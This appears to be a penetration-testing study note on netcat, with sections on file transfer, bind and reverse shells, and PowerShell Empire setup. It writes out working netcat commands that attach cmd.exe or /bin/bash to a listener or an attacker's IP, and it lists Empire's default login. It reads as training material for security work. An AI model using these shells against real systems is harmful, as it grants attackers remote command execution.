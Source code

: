 
---

## Netcat Fundamentals

Netcat is available for both Linux and Windows OS, consequently making it extremely useful for cross-platform engagements. 

Netcat utilizes a client-server communication architecture with two modes:
- **Client mode:** Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server).
- **Server mode:** Netcat cat be used to listen for connections from clients on a specific port.

Netcat can be used by pen-testers to perform the following functionality:
- Banner Grabbing
- Port Scanning
- Transferring Files
- Bind/Reverse Shells

After gaining access to a Windows target machine, we can upload our nc.exe file from our local machine to the target machine using certutil. After doing that, we will start to listen to connections coming from the target machine to our local machine by doing that on our local machine: `nc -nvlp 1234`.
On  the target mchine: `.\nc.exe -nv (our IP address) 1234`

Of course, we can do the opposite from the target system to our local machine.

We can connect to UDP port by using **(-u )** flag before the **(-p)** in the listening machine. We also need to specify the UDP port option in the Client mode machine. For example, commands on our local machine:`nc -nvlup 1234` and on the target machine:`.\nc.exe -nuv (our IP address) 1234`

If we want to transfer a file from our local Kali machine to the Windows target machine, we will do the following: 
- On our local machine: `nc -nv (target IP) 1234 < (file name)`
- On the target machine: `nc.exe -nvlp 1234 > (file name)`

**Note: Both of files names don't have to match, we only need to specify the name of the file that we want to upload from our local machine.**

---

## Bind Shells


A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

To get a bind shell on the target machine, we will need to have nc.exe file on the target machine. Then, on the target machine, and since it is a bind shell, we will make the target machine listen to incoming traffic on a port while specifying the cmd.exe as an execution command: `nc.exe -nvlp 1234 -e cmd.exe` Any machine that would connect to the target machine, will have a command prompt.

On our local machine: `nc -nv (target IP) 1234`

Now, we have a bind shell.

**If our target machine was a Linux system, we replace the (-e) flag with (-c) flag and cmd.exe with /bin/bash** 

---

## Reverse Shells

A reverse shell is the opposite of a bind shell, where the target machine is connecting to the attacker machine while the attacker machine is listening for incoming traffic.

As usual, we need to upload nc.exe file to the target Windows system. 

To get a reverse shell:
- On our local machine: `nc -nvlp 1234`
- On the target Windows machine: `nc.exe -nv (our IP) 1234 -e cmd.exe`

**If our target machine was a Linux system, we replace the (-e) flag with (-c) flag and cmd.exe with /bin/bash**

---

## Reverse Shell Cheatsheet

There is a GitHub repository that has multiple reverse shell payloads for different targets:https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

There is a website called Reverse shell generator:https://www.revshells.com/ 

---

## PowerShell-Empire

Powershell-Empire is a pure Powershell exploitation/post-exploitation framework built on cryptological-secure communications and flexible architecture.

Empire implements the ability to run Powershell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

After installing Empire, we need to run: `sudo Powershell-Empire server` and this will run the server. On another cmd tab: `sudo Powershell-Empire client` and this will start our Empire workstation

To use Starkiller, which is the GUI of Empire, we run it from cmd. We will be in a web page that requires credentials. Default credentials is :"empireadmin:password123"

